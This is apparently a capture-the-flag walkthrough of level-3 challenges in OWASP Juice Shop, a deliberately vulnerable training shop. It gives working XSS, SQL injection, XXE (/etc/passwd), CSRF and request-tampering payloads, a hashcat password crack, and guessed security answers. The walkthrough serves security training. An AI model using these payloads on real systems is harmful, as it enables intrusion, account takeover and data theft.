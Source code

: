# Level 3

## API-only XSS (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> without using the frontend application at all._

Following the [Product Tampering](#product-tampering-broken-access-control) challenge, we know we can modify the product
description:
```
PUT /api/Products/1
Content-type: application/json

{"description":"Hello <iframe src=\"javascript:alert(`xss`)\">"}
```

## Admin Registration (Improper Input Validation)
_Register as a user with administrator privileges._

Modify the body of the user registration request (`POST /api/Users/`) by adding `"role":"admin",`:
```
{
  "email": "admin@mail",
  "role": "admin",
  "password": "admin1",
  "passwordRepeat": "admin1",
  "securityQuestion": {
    "id": 1,
    "question": "Your eldest siblings middle name?",
    "createdAt": "2020-08-13T14:12:54.775Z",
    "updatedAt": "2020-08-13T14:12:54.775Z"
  },
  "securityAnswer": "Whatever"
}
```

## Bjoern's Favorite Pet (Broken Authentication)
_Reset the password of Bjoern's OWASP account via the Forgot Password mechanism with the original answer to his security question._

Bjoern's OWASP account email is `bjoern@owasp.org` (looking into Administration).

Google for `bjoern kimminich cat name`.
One of the sources is this YouTube video https://www.youtube.com/watch?v=Lu0-kDdtVf4 (4:20).

The pet's name is `Zaya`

## CAPTCHA Bypass (Broken Anti Automation)
_Submit 10 or more customer feedbacks within 10 seconds._

CAPTCHA is broken. The computation result is bound to `captchaId`.
We can simply bypass it by sending the same id, and the same result over and over again. 

Bash script to send the request 10 times:
```
for i in {1..10}
do
    curl -i -X POST \
        -H 'Content-Type: application/json' \
        --data '{"captchaId":6,"captcha":"14","comment":"AAA (anonymous)","rating":3}' \
        https://vernjan-juice-shop12.herokuapp.com/api/Feedbacks/
done
```

## CSRF (Broken Access Control)
_Change the name of a user by performing Cross-Site Request Forgery from [another origin](http://htmledit.squarefree.com/)._

This **no longer works in modern web browsers**.

The idea is to craft an HTML page similar to this:
```
<form action="YOUR_URL/profile" method="POST">
  <input type="text" id="username" name="username" value="John">
  <input type="submit" value="Submit">
</form> 
<script>document.forms[0].submit();</script>
```

Finally, send a link to this page to a victim. Once the victim visits the link, the form is auto-submitted
by the JavaScript and the victim's name is changed.

If you want to just solve the challenge without installing an old version of a browser,
you can intercept the request for a username change (`POST /profile`)
and add header `Origin: http://htmledit.squarefree.com`.

## Client-side XSS Protection (XSS)
_Perform a persisted XSS attack with <iframe src="javascript:alert(`xss`)"> bypassing a client-side security mechanism._

The hardest part is to find which field is vulnerable to XSS. For this challenge, you can exclude all fields which
- are not client-side validated,
- and their value is not persisted and shown on some other page.

The vulnerable field is `email` in User registration.

To solve the challenge, tamper with the request and change the email
into ```Hello <iframe src="javascript:alert(`xss`)">```.

## Database Schema (Injection)
_Exfiltrate the entire DB schema definition via SQL Injection._

We already know there's a SQLi vulnerability in the _Login_. Unfortunately, it does not print the returned
data on the screen.

We have 2 options now:
- Do [blind SQL injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
  (using for example [sqlmap](http://sqlmap.org/)) targeting _Login_. It's going to be quite slow.
- Find another SQLi entry which prints data back on the screen.

Searching for `rest/` through the main JS file `main-es2015.js` reveals entry point `/rest/products/search?q=`.
It looks perfect because it returns multiple results and prints them back on the screen.

### Step 1: Is it vulnerable to SQLi?
Let's start with a normal query:
```
GET /rest/products/search?q=Apple

{
  "status": "success",
  "data": [
    {
      "id": 1,
      "name": "Apple Juice (1000ml)",
      "description": "The all-time classic.",
      "price": 1.99,
      "deluxePrice": 0.99,
      "image": "apple_juice.jpg",
      "createdAt": "2020-08-20 06:11:49.815 +00:00",
      "updatedAt": "2020-08-20 06:11:49.815 +00:00",
      "deletedAt": null
    },
    {
      "id": 24,
      "name": "Apple Pomace",
      "description": "Finest pressings of apples. Allergy disclaimer: Might contain traces of worms. Can be <a href=\"/#recycle\">sent back to us</a> for recycling.",
      "price": 0.89,
      "deluxePrice": 0.89,
      "image": "apple_pressings.jpg",
      "createdAt": "2020-08-20 06:11:49.819 +00:00",
      "updatedAt": "2020-08-20 06:11:49.819 +00:00",
      "deletedAt": null
    }
  ]
}

Response code: 200 (OK); Time: 490ms; Content length: 631 bytes
```

Ok, all good. Now let's try this:
```
GET /rest/products/search?q=Apple'
..
<body>
<div id="wrapper">
    <h1>OWASP Juice Shop (Express ^4.17.1)</h1>
    <h2><em>500</em> SequelizeDatabaseError: SQLITE_ERROR: near &quot;&#39;%&#39;&quot;: syntax error</h2>
    <ul id="stacktrace">
        <li> &nbsp; &nbsp;at Query.formatError (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:422:16)</li>
        <li> &nbsp; &nbsp;at Query._handleQueryResponse
            (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:73:18)
        </li>
        <li> &nbsp; &nbsp;at afterExecute (/app/node_modules/sequelize/lib/dialects/sqlite/query.js:250:31)</li>
        <li> &nbsp; &nbsp;at replacement (/app/node_modules/sqlite3/lib/trace.js:19:31)</li>
        <li> &nbsp; &nbsp;at Statement.errBack (/app/node_modules/sqlite3/lib/sqlite3.js:14:21)</li>
    </ul>
</div>
</body>
</html>

Response code: 500 (Internal Server Error); Time: 333ms; Content length: 1534 bytes
```

Whoops, `SQLITE_ERROR: near "'%'": syntax error`.
There we have our SQLi vulnerability and, on top of that,
we know it's [SQLite](https://www.sqlite.org/index.html) database.

### Step 2: Inject custom query
I had a bit hard time injecting a custom query. Simply commenting out the rest of the original query doesn't work:
```
GET /rest/products/search?q=Apple'--

SequelizeDatabaseError: SQLITE_ERROR: incomplete input
```

The query is incomplete. After a bit of googling I figured out I'm missing closing parentheses:
```
GET /rest/products/search?q=Apple'))--

{
  "status": "success",
  "data": []
}

Response code: 200 (OK); Time: 243ms; Content length: 30 bytes
```

Cool, now we are ready for injection.

### Step 3: Get the number of columns
The next step is to determine the number of columns in the original "Products" table so that we can use `UNION SELECT`
to fetch data from another table.

```
GET /rest/products/search?q=Apple'))+UNION+SELECT+null--

SequelizeDatabaseError: SQLITE_ERROR: SELECTs to the left and right of UNION do not have the same number of result columns
```

Ok, that's good, we just need to find the correct number of columns.
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null--
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null,null--
..
GET /rest/products/search?q=Apple'))+UNION+SELECT+null,null,null,null,null,null,null,null,null--
TypeError: Cannot read property "locale" of null
```

So it's 9 columns. This new error is coming from the application (not database). We can fix it easily
like this:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+'a','b','c',null,null,null,null,null,null--

{
  "status": "success",
  "data": [
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": null,
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    }
  ]
}

Response code: 200 (OK); Time: 301ms; Content length: 165 bytes
```

### Step 4: Where does SQLite store DB schema?
A bit of googling tell us it's `sqlite_master` table.
See [Injecting SQLite database based application](https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf).

The most interesting column is `sql`.

### Step 5: Exfiltrate the DB schema
Time to put together the final payload:
```
GET /rest/products/search?q=Apple'))+UNION+SELECT+'a','b','c',sql,null,null,null,null,null+FROM+sqlite_master--

{
  "status": "success",
  "data": [
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": null,
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": "CREATE TABLE `Addresses` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `fullName` VARCHAR(255), `mobileNum` INTEGER, `zipCode` VARCHAR(255), `streetAddress` VARCHAR(255), `city` VARCHAR(255), `state` VARCHAR(255), `country` VARCHAR(255), `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `UserId` INTEGER REFERENCES `Users` (`id`) ON DELETE SET NULL ON UPDATE CASCADE)",
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    {
      "id": "a",
      "name": "b",
      "description": "c",
      "price": "CREATE TABLE `BasketItems` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `quantity` INTEGER, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `BasketId` INTEGER REFERENCES `Baskets` (`id`) ON DELETE CASCADE ON UPDATE CASCADE, `ProductId` INTEGER REFERENCES `Products` (`id`) ON DELETE CASCADE ON UPDATE CASCADE, UNIQUE (`BasketId`, `ProductId`))",
      "deluxePrice": null,
      "image": null,
      "createdAt": null,
      "updatedAt": null,
      "deletedAt": null
    },
    ..
```

Finally, I extracted the queries into [db-schema.sql](misc/db-schema.sql).
```
cat dump.json | jq .data[].price | tail -n +2 | tr -d '"' > db-dump.sql
```
It will surely come handy later.

## Deluxe Fraud (Improper Input Validation)
_Obtain a Deluxe Membership without paying for it._

Log in as a standard customer (not admin) and pay for the Deluxe membership (in top left menu).

This is the important request:
```
POST YOUR_URL/rest/deluxe-membership
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..
Content-Type: application/json

{"paymentMode":"card"}
```

Create a new user and replay this request with the following body (also update the `Authorization` header):
```
{"paymentMode":""}
```

## Forged Feedback (Broken Access Control) 
_Post some feedback in another users name._

Log in and post a feedback. Then modify `userId` in the request body and resend it.
```
POST /api/Feedbacks/
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9
Content-Type: application/json

{"status":"success","data":{"id":19,"UserId":2,"comment":"AAAAAAA (***in@juice-sh.op)","rating":3,"updatedAt":"2020-08-20T14:08:30.102Z","createdAt":"2020-08-20T14:08:30.102Z"}}
```

## Forged Review (Broken Access Control) 
_Post a product review as another user or edit any user's existing review._

Log in and post a review. Then modify `author` in the request body and resend it.

```
PUT /rest/products/1/reviews
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9
Content-Type: application/json

{"message":"Not Jim's review","author":"jim@juice-sh.op"}
```

## GDPR Data Erasure (Broken Authentication)
_Log in with Chris' erased user account._

TODO

## Login Amy (Sensitive Data Exposure)
_Log in with Amy's original user credentials. (This could take 93.83 billion trillion trillion centuries to brute force, but luckily she did not read the "One Important Final Note")_

Googling for `"One Important Final Note"` points to https://www.grc.com/haystack.htm?1. An interesting technique for making
memorable passwords. 

Read the "One Important Final Note" to understand the core of this challenge. We can assume that Amy's password is short
and padded with `....` to 24 characters (based on the _93.83 billion trillion trillion centuries_ cracking time).

First step is to get Amy's password hash. The same process as in
[Password Strength](level2.md#password-strength-broken-authentication) challenge.

The hash is: `030f05e45e30710c3ad3c32f00de0473`

I used [hashcat](https://hashcat.net/hashcat/) for cracking the password:
```
echo 030f05e45e30710c3ad3c32f00de0473 > hashes.txt
$ hashcat -a 3 -d 3 -m 0 hashes.txt -1 '?l?u?d' '?1?1?1.....................'
..
Session..........: hashcat
Status...........: Cracked
Hash.Name........: MD5
Hash.Target......: 030f05e45e30710c3ad3c32f00de0473
Time.Started.....: Tue Sep  1 16:57:58 2020 (1 min, 11 secs)
Time.Estimated...: Tue Sep  1 16:59:09 2020 (0 secs)
Guess.Mask.......: ?1?1?1..................... [24]
Guess.Charset....: -1 ?l?u?d, -2 Undefined, -3 Undefined, -4 Undefined
Guess.Queue......: 1/1 (100.00%)
Speed.#3.........:     1541 H/s (0.20ms) @ Accel:256 Loops:32 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests
Progress.........: 108672/238328 (45.60%)
Rejected.........: 0/108672 (0.00%)
Restore.Point....: 0/1 (0.00%)
Restore.Sub.#3...: Salt:0 Amplifier:108640-108672 Iteration:0-32
Candidates.#3....: g0h..................... -> K1f.....................
```

- `-a 3` is for brute-force attack
- `-d 3` is for running on my dedicated graphics card
- `-m 0` is for MD5
- `-1 '?l?u?d'` is a custom charset with lower and uppers case letters and digits (see https://hashcat.net/wiki/doku.php?id=mask_attack for details)
- `'?1?1?1.....................'` is a password mask

Once _hashcat_ is done, read the password:
```
$ hashcat hashes.txt --show
030f05e45e30710c3ad3c32f00de0473:K1f.....................
```

Amy's password is `K1f.....................`

## Login Bender (Injection)
_Log in with Bender's user account._

The same as [Login Jim](#login-jim-injection) challenge.

## Login Jim (Injection)
_Log in with Jim's user account._

We need two things: email and password

Email is easy. Once you have the admin access, you can see it in _Administration_. It's `jim@juice-sh.op`.

To bypass the password check, we can use a simple SQL injection:
`jim@juice-sh.op';` or `jim@juice-sh.op'--`

## Manipulate Basket (Broken Access Control)
_Put an additional product into another user's shopping basket._

I found an alternative solution for this challenge which is, however, not recognized as the correct one. 
I created Juice shop bug [#1452](https://github.com/bkimminich/juice-shop/issues/1452).

### 1) Create new basket item
```
POST /api/BasketItems/
Content-type: application/json

{"quantity":3,"ProductId":19}
---
{"status":"success","data":{"id":21,"ProductId":19,"quantity":3,"updatedAt":"2020-08-26T22:22:36.821Z","createdAt":"2020-08-26T22:22:36.821Z"}}
```

The trick here is to delete the `basketId` property! New basket item is created with `null` basketId.
Just to confirm it:
```
GET /api/BasketItems/21
---
{"status":"success","data":{"id":21,"quantity":3,"createdAt":"2020-08-26T22:22:36.821Z","updatedAt":"2020-08-26T22:22:36.821Z","BasketId":null,"ProductId":19}}
```

### 2) Add basket item to basket
Now we can put the basket item into another user's basket (this wouldn't possible if the basket item
had already been in someone's basket):
```
PUT /api/BasketItems/21
Content-type: application/json

{"BasketId":"8"}
---
{"status":"success","data":{"id":21,"quantity":3,"createdAt":"2020-08-26T22:22:36.821Z","updatedAt":"2020-08-26T22:23:45.932Z","BasketId":"8","ProductId":19}}
```

## Payback Time (Improper Input Validation)
_Place an order that makes you rich._

Add some products to your basket and then change the quantity. The following request is sent:
```
PUT /api/BasketItems/9
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.
Content-Type: application/json

{"quantity":5}
```

Change the quantity to a negative number and finish the order.

## Privacy Policy Inspection (Security through Obscurity)
_Prove that you actually read our privacy policy._

While reading the privacy policy, you can notice that some words get highlighted on the mouse hover:
![](images/privacy-policy-hot.png)

Inspect the highlighted word with DevTools and notice that it has CSS class `hot`.
Search for all `hot` classes to get the following words:
```
https://vernjan-juice-shop.herokuapp.com
We may also
instruct you
to refuse all
reasonably necessary
responsibility
```

I had now idea I should turn those words into a link but once I googled for them,
Google spoilt the solution in the search results previews.

Go to https://vernjan-juice-shop.herokuapp.com/We/may/also/instruct/you/to/refuse/all/reasonably/necessary/responsibility

The response is also weird but maybe it will come to use later?
```
404 Error: ENOENT: no such file or directory, stat '/app/frontend/dist/frontend/assets/private/thank-you.jpg'
```

## Product Tampering (Broken Access Control)
_Change the href of the link within the OWASP SSL Advanced Forensic Tool (O-Saft) product description into https://owasp.slack.com._

We know there's `/api/Products` endpoint. Looking into `/main-es2015.js` or just simply guessing we can discover it also
accepts `PUT` requests.

Let's use it to modify the existing product (id is `9`). Do not forget to add `Content-Type: application/json` header!

```
PUT /api/Products/9
Content-type: application/json

{"description":"O-Saft is an easy to use tool to show information about SSL certificate and tests the SSL connection according given list of ciphers and various SSL configurations. <a href=\"https://owasp.slack.com\" target=\"_blank\">More...</a>"}
```

## Reset Jim's Password (Broken Authentication)
_Reset Jim's password via the Forgot Password mechanism with the original answer to his security question._

Given the answer is a common name, it can be easily guessed. I downloaded a list of 200 most common names.
See [names.txt](misc/names.txt).

To automate the guessing process, I used [OWASP Zap Fuzzer](https://www.zaproxy.org/docs/desktop/addons/fuzzer/).

The sibling's name is `Samuel`. 

## Upload Size (Improper Input Validation)
_Upload a file larger than 100 kB._

The file size is validated with JavaScript. We can easily bypass using curl:
```
BEARER='eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9. ..'
curl -v -i -X POST -H "Authorization: Bearer $BEARER" -F 'file=@150kb.txt' https://vernjan-juice-shop.herokuapp.com/file-upload
```

Just make sure the file is not larger than `200 kB` (this is server-side validated).

## Upload Type (Improper Input Validation)
_Upload a file that has no .pdf or .zip extension._

The same as [Upload Size](#upload-size-improper-input-validation) challenge.

## XXE Data Access (XXE)
_Retrieve the content of `C:\Windows\system.ini` or `/etc/passwd` from the server._

Start with [](level2.md#deprecated-interface-security-misconfiguration) challenge.

Upload the following payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<hello>&xxe;</hello>
```

The response is:
```
410 Error: B2B customer complaints via file upload have been deprecated for security reasons: <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>root:x:0:0:root:/root:/bin/bashdaemon:x:1:1:daemon:/usr/sbin:/bin/shbin:x:2:2:bin:/bin:/bin/shsys:x:3:3:sys:/dev:/bin/shsync:x:4:65534:sync:/bin:/bin/syncgames:x:5:60:games:/usr/games:/bin/shman:x:6:12:man:/var/cache/man:/bin/shlp:x:7:7:lp:/var/spool/lpd:/bin/shmail:x:8:8:mail:/v... (xxe.xml)
```
